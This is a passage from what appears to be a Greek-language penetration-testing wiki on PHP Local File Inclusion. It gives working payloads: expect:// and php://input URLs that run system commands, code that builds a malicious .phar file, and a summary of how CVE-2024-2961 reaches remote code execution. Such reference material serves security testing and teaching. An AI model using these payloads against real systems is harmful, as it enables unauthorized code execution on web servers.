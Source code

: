 Το Expect πρέπει να είναι ενεργοποιημένο. Μπορείτε να εκτελέσετε κώδικα χρησιμοποιώντας αυτό:
```
http://example.com/index.php?page=expect://id
http://example.com/index.php?page=expect://ls
```
### input://

Καθορίστε το payload σας στις παραμέτρους POST:
```bash
curl -XPOST "http://example.com/index.php?page=php://input" --data "<?php system('id'); ?>"
```
### phar://

Ένα αρχείο `.phar` μπορεί να χρησιμοποιηθεί για την εκτέλεση κώδικα PHP όταν μια διαδικτυακή εφαρμογή εκμεταλλεύεται συναρτήσεις όπως `include` για τη φόρτωση αρχείων. Το παρακάτω απόσπασμα κώδικα PHP δείχνει τη δημιουργία ενός αρχείου `.phar`:
```php
<?php
$phar = new Phar('test.phar');
$phar->startBuffering();
$phar->addFromString('test.txt', 'text');
$phar->setStub('<?php __HALT_COMPILER(); system("ls"); ?>');
$phar->stopBuffering();
```
Για να δημιουργήσετε το αρχείο `.phar`, θα πρέπει να εκτελέσετε την παρακάτω εντολή:
```bash
php --define phar.readonly=0 create_path.php
```
Κατά την εκτέλεση, θα δημιουργηθεί ένα αρχείο με το όνομα `test.phar`, το οποίο θα μπορούσε ενδεχομένως να χρησιμοποιηθεί για την εκμετάλλευση ευπαθειών Local File Inclusion (LFI).

Σε περιπτώσεις όπου το LFI εκτελεί μόνο ανάγνωση αρχείων χωρίς να εκτελεί τον PHP κώδικα μέσα σε αυτά, μέσω συναρτήσεων όπως `file_get_contents()`, `fopen()`, `file()`, `file_exists()`, `md5_file()`, `filemtime()`, ή `filesize()`, θα μπορούσε να επιχειρηθεί η εκμετάλλευση μιας ευπάθειας αποσυμπίεσης. Αυτή η ευπάθεια σχετίζεται με την ανάγνωση αρχείων χρησιμοποιώντας το πρωτόκολλο `phar`.

Για μια λεπτομερή κατανόηση της εκμετάλλευσης ευπαθειών αποσυμπίεσης στο πλαίσιο των αρχείων `.phar`, ανατρέξτε στο έγγραφο που συνδέεται παρακάτω:

[Phar Deserialization Exploitation Guide](phar-deserialization.md)

{% content-ref url="phar-deserialization.md" %}
[phar-deserialization.md](phar-deserialization.md)
{% endcontent-ref %}

### CVE-2024-2961

Ήταν δυνατό να καταχραστεί **οποιοδήποτε αυθαίρετο αρχείο που διαβάζεται από PHP που υποστηρίζει φίλτρα php** για να αποκτηθεί RCE. Η λεπτομερής περιγραφή μπορεί να [**βρεθεί σε αυτή την ανάρτηση**](https://www.ambionics.io/blog/iconv-cve-2024-2961-p1)**.**\
Πολύ γρήγορη περίληψη: μια **υπερχείλιση 3 byte** στο σωρό PHP καταχράστηκε για να **αλλάξει την αλυσίδα των ελεύθερων κομματιών** συγκεκριμένου μεγέθους προκειμένου να είναι δυνατή η **γραφή οτιδήποτε σε οποιαδήποτε διεύθυνση**, έτσι προστέθηκε ένα hook για να καλέσει **`system`**.\
Ήταν δυνατό να κατανεμηθούν κομμάτια συγκεκριμένων μεγεθών καταχρώντας περισσότερα φίλτρα php.
